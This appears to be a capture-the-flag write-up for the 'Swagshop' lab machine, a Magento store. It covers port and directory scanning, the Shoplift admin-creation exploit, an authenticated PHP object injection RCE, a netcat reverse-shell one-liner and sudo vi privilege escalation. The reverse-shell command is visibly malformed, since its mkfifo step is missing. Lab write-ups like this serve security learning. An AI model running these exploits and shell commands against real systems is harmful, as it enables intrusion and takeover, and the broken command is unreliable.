









# Swagshop - Linux (Easy)

## Summary
Swagshop was an easy box that involved a Magneto store web server. I start off by exploiting an authentication bypass to add an admin user to the CMS. I then used an authenticated exploitation of a PHP Object Injection Vulnerability to get RCE. I was able to then use Vi to privesc to gain root level access.

## Enumeration
I started Enumeration by running Rustscan on the the target that showed ports 22 & 80 being open.

```
rustscan -a $machine_IP -- -A -sV -sC -T4 -vv

-sC - Script Scan
-sV - Version Scan
-T4 - Timing Template
-A  - Aggresive Scan Options
-vv - Verbosity level

.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open $machine_IP:22
Open $machine_IP:80
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Did not follow redirect to http://swagshop.htb/
|_http-favicon: Unknown favicon MD5: 88733EE53676A47FC354A61C32516E82
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

### Port 80 - HTTP
The website is a Magneto Gift Shop Store. I ran Gobuster on `index.php` which provided more details than the landing page, including an admin directory.

```
gobuster dir -u http://swagshop.htb/index.php/ -w /usr/share/wordlists/dirb/common.txt -k     
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://swagshop.htb/index.php/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/02/18 06:38:23 Starting gobuster in directory enumeration mode
===============================================================
/0                    (Status: 200) [Size: 16593]
/admin                (Status: 200) [Size: 3609] 
/api                  (Status: 200) [Size: 361]  
/catalog              (Status: 302) [Size: 0] [--> http://swagshop.htb/index.php/]
/checkout             (Status: 302) [Size: 0] [--> http://swagshop.htb/index.php/checkout/onepage/]
/cms                  (Status: 200) [Size: 16593]                                                  
/contacts             (Status: 200) [Size: 15600]                                                  
/core                 (Status: 200) [Size: 0]                                                      
/enable-cookies       (Status: 200) [Size: 19482]                                                  
/Home                 (Status: 200) [Size: 16591]                                                  
/home                 (Status: 200) [Size: 16591]                                                  
/install              (Status: 302) [Size: 0] [--> http://swagshop.htb/index.php/]                 
/wishlist             (Status: 302) [Size: 0] [--> http://swagshop.htb/index.php/customer/account/login/]
                                                                                                         
===============================================================
2022/02/18 06:46:16 Finished
===============================================================
```


The `admin` directory had an Admin login page for which, default credentials didn't seem to do the trick. With some Searchsploit and Googling, I was able to settle on the [Shoplift](https://github.com/joren485/Magento-Shoplift-SQLI) exploit. The PoC selects an admin user, feeds queries into one line and inserts a username:password combination which allows legitimate access. 





## User Foothold

Now that I am authenticated, I was able to use Searchsploit to grab working code for an Authenticated RCE [exploit](https://www.exploit-db.com/exploits/37811).



Having done some research on the nature of this exploit, it appears to be a PHP Object Injection Vulnerability. A key aspect to this attack vector is the date when it was installed which is present in `swagshop.htb/app/etc/local.xml`. This allows me to inject my own code, resulting in the RCE. 

After [RCE.py](RCE.py) was debugged, I was able to run the following Proof of Concept.

```
python exploit.py http://IP/index.php/admin "whoami" 

http://swagshop.htb/index.php/admin/index/index/key/15b8de05ecf8a02c061eec0d14578a48/?SID=901gjdi369elk0fkpp5rguve55
http://swagshop.htb/index.php/admin/dashboard/index/key/fa2c88ef0cf6cd68256766221e0a9866/

www-data
```

Seeing that this provided the expected output of the `whoami` command giving me access as `www-data`, I was able to expand on this to set a netcat reverse shell and a listener

```
python exploit.py http://$machine_IP/index.php/admin "rm /tmp/f;f;cat /tmp/f|/bin/sh -i 2>&1|nc $machine_IP 1234 >/tmp/f"
```

Having established this, I was able to upgrade my shell and grab the user flag. 



## Privilege Escalation

After obtaining the user flag, I ran `sudo -l` to identify what other applications the user could run as root. This was surprisingly easy as I could use `/usr/bin/vi` & `/var/www/html/*`





For reference, I used the associated [GTFO Bins](https://gtfobins.github.io/gtfobins/vi/) resource.

This ensured that I was able to reach the `root.txt` file and grab the root file as an unprivileged user. When in Vi, I was able to use the `:sh` flag which gave me a root shell



## Cert

